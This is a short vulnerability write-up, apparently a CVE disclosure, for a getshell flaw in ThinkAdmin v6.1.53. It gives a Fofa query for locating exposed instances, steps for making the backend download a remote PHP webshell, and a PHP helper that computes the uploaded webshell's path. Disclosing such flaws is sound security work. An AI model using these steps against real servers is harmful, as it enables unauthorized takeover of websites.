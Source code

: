 ThinkAdmin Logical defect getshell



Project Introduction

ThinkAdmin is a product that follows [MIT]（ https://mit-license.org/ ）Protocol open source rapid development framework, based on the latest version of  ThinkPHP6 , a minimalist backend management system (compatible with ThinkPHP8)

Official website: https://thinkadmin.top/



Audit version: ThinkAdmin Version v6.1.53

![image](https://github.com/1dreamGN/CVE/assets/112082417/51ff63b5-e982-40fb-bd28-5d11fe91e5ac)


 

Fofa : body="/admin/api.plugs/script"

![image](https://github.com/1dreamGN/CVE/assets/112082417/b69077fd-69ff-424f-af4e-639c6fe6f117)


Logical defect getshell
Recurrence of vulnerabilities
Log in to the backend to set system parameters

![image](https://github.com/1dreamGN/CVE/assets/112082417/ffbe221d-62d6-40e7-9a5b-996c8af3df44)


Fill in the URL of a pure static downloadable PHP webshell file here
That is, the webshell download path
Click to save the configuration
After saving, calculate the path to download to the server
The script is as follows

```
function name(string $url, string $ext = '', string $pre = '', string $fun = 'md5'): string

{

  [$hah, $ext] = [$fun($url), trim($ext ?: pathinfo($url, 4), '.\\/')];

  $attr = [trim($pre, '.\\/'), substr($hah, 0, 2), substr($hah, 2, 30)];

  return trim(join('/', $attr), '/') . '.' . strtolower($ext ?: 'tmp');

}

 

$url = "webshell path";

 

echo '/upload/'.name($url, '', 'down/');
```



 

![image](https://github.com/1dreamGN/CVE/assets/112082417/20b4395a-7e1f-43a6-adb0-df7c3b7e6c69)


Use the above calculation to calculate the URL variable as the URL for setting system parameters
Splicing paths is sufficient

![image](https://github.com/1dreamGN/CVE/assets/112082417/77ebfffa-fa50-40df-9a50-1c3522b28a53)
